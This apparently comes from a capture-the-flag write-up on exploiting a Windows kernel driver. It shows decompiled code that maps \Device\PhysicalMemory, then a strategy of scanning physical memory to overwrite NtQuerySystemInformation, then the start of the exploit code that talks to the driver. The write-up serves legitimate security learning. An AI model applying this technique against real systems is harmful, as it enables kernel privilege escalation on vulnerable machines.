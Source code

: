 ```c
int64_t map_physmem(void* arg1, uint64_t size, void** mapped)
    phys_addr = arg1
    struct UNICODE_STRING str
    RtlInitUnicodeString(&str, u"\Device\PhysicalMemory")
    OBJECT_ATTRIBUTES oa
    oa.RootDirectory = 0
    oa.ObjectName = &str
    oa.Length = 0x30
    oa.Attributes = 0x40
    oa.SecurityDescriptor = 0
    oa.SecurityQualityOfService = 0
    int64_t rax = ZwOpenSection(&SectionHandle, 6, &oa)
    if (rax.d s>= 0)
        void* sec = SectionHandle
        *mapped = nullptr
        int32_t var_60_1 = 4
        int32_t var_68_1 = 0
        int32_t var_70_1 = 1
        uint64_t ViewSize = size
        int32_t rax_1 = ZwMapViewOfSection(SectionHandle: sec, ProcessHandle: -ffffffffffffffff, BaseAddress: mapped, ZeroBits: nullptr, CommitSize: size, SectionOffset: &phys_addr, ViewSize: &ViewSize)
        ZwClose(SectionHandle)
        rax = zx.q(rax_1)
    return rax
```
This function maps a slice of up to 0x1000 bytes of physical memory into the virtual address space. Depending on the opcode passed, the driver then either copies bytes _from_ userspace _to_ the physical memory or vice versa. This essentially gives us arbitrary read/write into any part of memory, bypassing page permissions and virtual address space KASLR.

## Strategy
From this point there's a few options. Luckily, I had previously written a somewhat similar challenge for Hack The Box - [OpenDoor](https://www.hackthebox.com/blog/open-door-business-ctf), a kernel write-what-where backdoor. The only significant difference here was that we had write into _physical_ addresses, and my solution for that challenge used `NtQuerySystemInformation` to leak _virtual_ addresses of various kernel objects.

From my understanding, the author's intended solution was to leak the CR3 register (stored somewhere in the low part of physical memory) in order to walk page tables and map virtual to physical addresses manually. However, I had recently read stong/cts/gf_256's [CVE-2020-15368 writeup](https://github.com/stong/CVE-2020-15368), in which code execution is gained by scanning physical memory for a known signature and replacing it. I chose to target `NtQuerySystemInformation`, as I surmised it would likely be very underused (therefore unlikely to brick the system) ~~and because I could copy-paste my code from a previous writeup to resolve and call it~~.

## Writing the Exploit
I began with a small 'framework' for interacting with the driver.
```c
#include <windows.h> 
#include <stdint.h>
#include <stdio.h>
#include <stdbool.h>
typedef  struct {
  size_t len;
  char* addr;
  int64_t phys_addr;
} Req;
NTSTATUS ReadPhysmem(HANDLE device, int64_t PhysAddr, size_t Length, char* buf) {
  Req request = { .len = Length, .addr = buf, .phys_addr = PhysAddr }; 
  return DeviceIoControl(device, 0x220004, &request, sizeof(request), NULL, 0, NULL, NULL); 
}
```